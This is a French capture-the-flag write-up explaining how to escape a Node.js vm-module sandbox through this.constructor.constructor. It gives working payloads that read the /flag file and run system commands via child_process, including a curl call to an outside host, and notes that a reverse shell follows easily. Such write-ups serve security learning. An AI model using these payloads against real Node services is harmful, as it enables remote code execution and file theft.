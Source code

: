 ```yaml
---
title: "JSSandbox"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - JSSandbox - *300 pts*

## Énoncé
J'ai codé un super outil pour que les débutants puissent apprendre à utiliser NodeJS facilement sur Internet, en plus j'ai sandboxé l'exécution pour pas que des petits filous essayent de faire n'importe quoi :)

Je doute quand même de la robustesse de la méthode que j'ai employée, tu peux y jeter un coup d'oeil ?

*le flag se trouve dans le fichier* `/flag`

## Solution

Une sandbox JavaScript ! Elle me permet de jouer avec JS et d'apprendre à programmer.

La première question que je me pose est : qui ou quoi exécute mon code ? Dans ce cas précis, ça a l'air d'être le serveur qui fait tout, car rien n'est exécuté côté client. Cela veut dire que le serveur exécute le code que je veux, pas mal non ?

![](images/015/01.png)

Sauf qu'après quelques essais, on se rend compte que cette sandbox est bien limitée : pas d'accès aux modules `fs` ou `child_process`, et surtout, pas possible de `require` des nouveaux modules.

Cela ressemble a une VM JavaScript faite avec le module node `vm`, mais c'est plutôt une bonne nouvelle pour nous, car ce module n'est pas sécurisé du tout.

Commençons par essayer de trouver si un contexte existe avec le keyword `this`.

![](images/015/02.png)

On nous retourne `[Object object]`, ce qui veut dire que `this` existe bel et bien.

Après quelques recherches sur Internet, je me rends compte qu'il serait possible de sortir du contexte de la VM en utilisant les constructeurs de mon objet `this` : `this.constructor.constructor`. Cela veut dire qu'on peut lui passer une fonction anonyme sous forme de texte, qui sera automatiquement appelée par le constructeur lors de son instanciation. 

Par exemple, on peut faire : `this.constructor.constructor('return 1+1')`

![](images/015/03.png)

Bingo, on arrive à exécuter du code. Mais ça nous avance à quoi ?
Ce qui compte ici c'est le contexte dans lequel est exécuté notre code. En utilisant les constructeurs, on est en mesure d'échapper le contexte de la VM pour se retrouver dans le contexte global.

On peut maintenant utiliser `require` pour appeler n'importe quelle librairie native ! À nous le flag.

`this.constructor.constructor("return process.mainModule.require(\'fs\').readFileSync(\'flag\',\'utf-8\')")()`

![](images/015/04.png)

Petit bonus, on peut également obtenir une RCE côté système avec le module `child_process`.

`this.constructor.constructor("return process.mainModule.require(\'child_process\').exec(\'curl http://opencycom.free.beeceptor.com\')")()`

![](images/015/05.png)

![](images/015/06.png)

À partir de là, il est trivial d'obtenir un reverse shell :)

*FLAG : OPC{VM\*\*\*\*\*\*\*\*\*\*}*
